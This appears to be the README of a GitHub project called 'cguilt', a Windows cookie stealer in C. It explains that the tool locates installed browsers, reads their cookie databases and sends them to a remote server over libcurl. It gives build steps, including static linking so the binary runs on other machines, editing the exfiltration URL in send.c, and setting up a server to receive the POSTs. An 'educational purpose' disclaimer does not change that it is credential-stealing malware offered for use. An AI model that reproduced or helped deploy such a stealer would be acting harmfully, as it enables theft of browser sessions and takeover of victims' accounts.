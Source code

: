 # cguilt
Kinda experiment field with cookies in Windows. As it is said above, it's just for educational purpose only. Have dependencies, also runtime one. So, to build it you'll need **libcurl** and **sqlite3**. Also libcurl should be static linked, because otherwise binary won't work on other machines. The explanation here is because the **libcurl.dll** is requred in runtime, so you need to link it static somehow.

### # faq
**Q.** *What is this exactly and how it works?*

**A.** It's really simple cookie stealler, which, as I already said twice, was written just for fun and some practice of course. It's just checks what browsers are currently installed at the local machine and reads it's cookies database files, then send them to other server through curl with api requests.

**Q.** *How can I use it?*

**A.** Just build it from sources like many other programs. In fact, I don't think it is really usefull stuff, but if you want - you're welcome. Also, this thing is still pretty raw and I actually have not yet compitely tested it on other machines. But issues here is always open, so if you want to improve for some reason...

### # quo vadis?
As it is can be somehow harmful, the main purpose of this thing is practice and education. That's all...

### # build
Install **libcurl** and **sqlite3** libs. Before compilation change destination server adress in 40th string in ***send.c***:
```c
curl_easy_setopt(curl, CURLOPT_URL, "http://127.0.0.1:5000/api_post");
```
Also you need a serverside to accept the incoming POST requests. Enjoy.

Compile everything. Btw you need somehow link libcurl as static. Purpose of that is written above.
```bash
gcc -o <name> main.c send.c `pkg-config --cflags --libs sqlite3 libcurl`
```
